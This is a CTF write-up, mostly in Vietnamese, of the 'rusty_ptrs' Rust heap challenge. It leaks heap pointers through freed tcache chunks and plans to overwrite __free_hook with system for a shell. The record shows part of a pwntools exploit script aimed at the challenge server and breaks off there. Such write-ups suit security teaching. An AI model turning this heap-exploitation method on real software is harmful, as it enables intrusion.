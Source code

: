 ```rust
	println!("3. Read a Rule or Note");
	println!("4. Edit a Rule or Note");
	println!("5. Make a Law");
	println!("6. Exit");
}

fn submenu(){
	println!("1. Rules");
	println!("2. Notes");
}
```
Chúng ta sẽ có 5 option của một bài heap là `create, delete, edit, read` và 2 option phụ.
Tuy không giỏi đọc rust lắm nhưng mà sau một hồi ngồi thử và debug thì mình thấy được rằng:
- Bài cho ta free libc ở option 5
- `Box` trong Rust là một kiểu dữ liệu động có thể allocate hoặc free 
- Sau khi thử một số option trong challenge thì mình nhận ra mình đã có một ptr trỏ vào 2 thằng mới được free như tcache vậy :Đ
- I try this:
```python
    create(rule)
    create(note)
    create(note)
    delete(note, 1)
    delete(note, 0)
    read(rule, 0)
```
- And see this one:
```c
Contents of Buffer: 
[160, 123, 23, 33, 126, 85, 0, 0, 16, 80, 23, 33, 126, 85, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
0x557e21177ba0, 0x557e21175010
```
- Vì đã có tcache và phiên bản libc này vẫn còn `hook` nên mình hướng tới việc ghi đè `__free_hook` thành `system` rồi sau đó free một chunk chứa `/bin/sh` để pop shell.

**Script của mình:**
```python
from pwn import *
import os

del os.environ['WT_SESSION']
context.log_level = 'debug'
context.binary = exe = ELF('./rusty_ptrs_patched')

libc = ELF('./libc.so.6')

match sys.argv[1]:
    case "run":
        p = process(exe.path)
    case "debug":
        p = gdb.debug(exe.path)
    case "remote":
        p = remote('rustyptrs.chal.uiuc.tf', 1337, ssl=True)
    case default:
        p = "nothing"

rule = 1
note = 2

def create(opt):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'> ', str(opt).encode())
```